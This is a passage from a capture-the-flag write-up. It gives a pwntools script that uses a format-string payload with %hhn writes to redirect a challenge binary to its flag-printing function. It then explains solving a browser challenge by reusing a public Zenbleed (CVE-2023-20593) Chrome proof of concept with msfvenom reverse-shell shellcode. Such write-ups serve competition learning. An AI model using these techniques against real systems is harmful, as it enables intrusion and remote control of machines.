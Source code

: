 ```python
uu32    = lambda data   :u32(data.ljust(4, b'\x00'))
uu64    = lambda data   :u64(data.ljust(8, b'\x00'))
leak    = lambda name,addr :log.success('{} = {:#x}'.format(name, addr))
#---
# printf_flag + 0x5

payload = b"N\0" 
payload = payload.ljust(0x30, b"A")
payload += b"%c" * 6 + b"%77c%hhn"
payload += b"%92c%22$hhn"

sla("Are you ready? Y/N : ", payload )
sla("Are you ready? Y/N : ",  b"Y")
sla("Place a Bet : ", "500")
sla("Make a Guess : ", str(0x1))
p.interactive()
```

## Return of babyUXSS return (500 points, 2 solves)

This challenge clearly is same as last year which exploit the bot by a browser exploit. To be honest, I used around 5 minutes to find the POC.
Here is the steps:
1. Google "v8ctf writeups"
2. Found the following tweet
https://twitter.com/_tsuro/status/1718919184040517840
3. Click on the Author Icon to look his post.
4. Found this post
https://twitter.com/tchght/status/1722144156267774223
5. Found the POC of CVE-2023-20593 — Exploiting Zenbleed from Chrome
https://github.com/vu-ls/Zenbleed-Chrome-PoC

After I found the POC, I sent it to my teammate @Hollow and he said just used the msfvenom to generate the reverse shell payload and got a reverse shell back by changing the shellcode in line 248 to a reverse TCP shell shellcode generated by msfvenom.


